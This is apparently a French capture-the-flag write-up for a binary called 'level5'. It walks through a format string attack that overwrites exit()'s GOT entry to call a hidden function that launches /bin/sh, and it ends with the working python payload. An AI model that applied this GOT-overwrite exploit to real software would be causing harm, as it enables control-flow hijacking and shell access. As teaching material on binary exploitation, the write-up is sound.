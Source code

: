 Si on disass notre exécutable il call printf avec notre input et utilise exit pour terminer le programme.
On remarque aussi qu'une fonction est présente mais n'est pas appelée, la fonction o exécute system("/bin/sh").
On en déduit qu'il va falloir détourner notre exécutable afin qu'il lance la fonction qui n'est pas utilisée ( la fonction o )

Vu que notre input est directement utilisé par printf nous pouvons effectuer un format string attack, mais contrairement a l'exercice d'avant nous ne pouvons pas utiliser le retour de la fonction pour l'exploit car la fonction se termine avant avec l'appel de exit(). Donc il n'y a pas d'EIP à overwrite.
Cependant l'exécutable utilise des 'dynamic link' et une faille est possible en écrasant la valeur de notre relocation (effectuée par plt) de la fonction exit. On va donc chercher à remplacer la valeur de notre GOT ( global offset table ) qui contient l'adresse pour exécuter exit().
Si on remplace l'adresse par celle de notre fonction o, notre fonction sera donc exécutée quand un appel à exit.plt sera effectué.

Pour obtenir les différentes adresses, dans gdb:

`info functions`
- 0x080484a4  o
Et pour avoir l'emplacement de la relocation on utilise readelf

`readelf -r ./level5`
- 08049838  00000607 R_386_JUMP_SLOT   00000000   exit

Pour récapituler nous devons donc écrire 0x080484a4 (o) dans 08049838 (reloc), 0x080484a4 en décimal vaut 134513828

Comme dans l'ancien exercice on utilise %p pour trouver l'emplacement de notre format string dans la stack

`python -c "print('AAAA' + ' %p'*10)" | ./level5`
- AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520

Notre string 'AAAA' est le 4eme element.
Nous pouvons donc pointer dessus de cette maniere '%4\$p'

`python -c "print('AAAA' + ' %4\$p')" | ./level5`
- AAAA 0x41414141

Cela fonctionne correctement il nous reste donc à tout assembler, c'est à dire écrire notre adresse 0x08049838 (reloc) notre nombre 0x080484a4 (o) en utilisant le %n de printf. ( attention a bien faire -4 a notre valeur car l'adresse que nous ecrivont avant vaut 4 soit 134513824 )

`python -c "print('\x38\x98\x04\x08' + '%134513824d' + ' %4\$n')" | ./level5`

Apres une dizaine de seconde la commande s'est exécutéee, mais il ne se passe rien car notre appel system se fini directement, il faut donc garder le stdin ouvert afin de pouvoir interagir avec notre sh qui est exécuté ! 

`(python -c "print('\x38\x98\x04\x08' + '%134513824d' + ' %4\$n')" ; cat) | ./level5`
